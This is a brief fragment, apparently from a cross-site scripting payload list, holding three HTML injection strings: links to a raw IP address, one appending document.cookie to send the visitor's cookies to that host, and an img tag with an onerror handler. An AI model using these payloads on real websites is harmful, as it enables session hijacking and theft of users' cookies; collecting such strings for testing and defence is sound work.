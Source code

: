 <A HREF="http://66.102.7.147/">XSS</A>
<A HREF="http://66.102.7.147/"+document.cookie>XSS</A>
<img src=x onerror="ok">

